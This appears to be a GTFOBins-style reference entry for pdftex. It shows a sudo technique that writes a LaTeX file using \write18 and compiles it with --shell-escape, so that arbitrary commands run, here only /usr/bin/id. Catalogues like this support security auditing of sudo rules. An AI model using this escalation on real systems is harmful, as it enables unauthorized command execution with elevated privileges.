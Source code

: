 description: `pdftex` has a similar behaviour as [`tex`](/gtfobins/tex/)
functions:
  sudo:
    - code: |
        echo "\documentclass[12pt]{article} \begin{document} \write18{/usr/bin/id} \end{document}" > file.tex
        pdftex -interaction=nonstopmode --shell-escape file.tex
